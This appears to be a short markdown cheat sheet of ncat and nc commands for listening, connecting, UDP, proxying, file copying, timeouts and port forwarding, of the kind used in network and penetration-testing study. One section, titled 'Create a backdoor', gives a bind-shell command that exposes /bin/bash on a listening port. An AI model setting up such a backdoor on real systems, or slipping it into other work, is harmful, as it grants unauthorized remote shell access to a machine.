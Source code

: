 ## ncat

### Listen to inbound connections
- ncat -l 8080

### Connect to remote system
- ncat [ip] [port]

### Listen to inbound connections UDP ports
- ncat -l -u [port]
  - check netstat -tunlp | grep [port]
  
### Connect to remote system UDP
- ncat -v -u [ip] [port]

### NC as a proxy
- ncat -l port1 | ncat [ip] [port2]
  - Now all the connections coming to our server on port [port1] will be automatically redirected to [ip] server on port [port2]
  
### Copying Files using nc/ncat
- ncat -l  [port] > file.txt
- ncat [ip] [port] --send-only < data.txt

### Force server to stay up using -k option in ncat
- ncat -l -k [port]

### Set Connection timeouts
- ncat -w [time] [ip] [port]

### Create a backdoor
- ncat -l [port] -e /bin/bash
- ncat [ip] [port]

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]

## nc

cheatsheet: https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
